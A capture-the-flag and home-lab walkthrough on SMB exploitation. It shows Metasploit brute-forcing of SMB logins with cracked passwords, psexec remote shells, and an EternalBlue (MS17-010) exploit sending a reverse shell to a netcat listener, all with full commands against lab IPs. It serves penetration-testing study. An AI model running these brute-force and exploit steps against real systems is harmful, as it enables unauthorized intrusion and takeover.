








# 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```



> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```



```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```



- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`e0da81a9cd42b261bc9b90d15f780433`



</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143) + [CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```


```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```



> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```


- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell



### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```



------

